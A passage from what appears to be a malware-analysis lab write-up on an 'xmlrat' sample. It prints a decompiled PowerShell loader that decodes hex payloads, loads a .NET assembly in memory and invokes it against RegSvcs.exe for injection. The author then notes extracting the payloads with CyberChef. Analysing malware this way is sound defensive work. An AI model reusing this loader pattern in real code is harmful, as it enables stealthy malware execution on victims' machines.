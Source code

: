 This script indicated a multi-stage payload to drop the malwares, also create persistence on victim machine, after decompiled, below are simplier version:

```shell
# Wait
Sleep 5

# Decode byte arrays from hex strings (external $hexString_bbb and $hexString_pe must be defined earlier)
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

Sleep 5

# Load .NET assembly from memory
$HM = 'Load'
$Fu = [Reflection.Assembly]::$HM($pe)

# Get type and method
$NK = $Fu.GetType('NewPE2.PE')
$MZ = $NK.GetMethod('Execute')

# Construct argument: a real system path + $NKbb byte array
$NA = 'C:\Windows\Micr'
$AC = $NA + 'osoft.NET\Framework\v4.0.30319\RegSvcs.exe'
$VA = @($AC, $NKbb)

# Execute
$CM = 'Invoke'
$EY = $MZ.$CM($null, [object[]] $VA)

Below this code is persistence mechanism as you could see in above script
```

Because this "fake" image contains 2 payload in hex, i could easily extract those two and decode by CyberChef, after decoded: 
- payload1 (`$NKbb`)
- payload2 (`pe`)

![pic9](assets/images/cyberdefender/xmlrat/pic9.png)
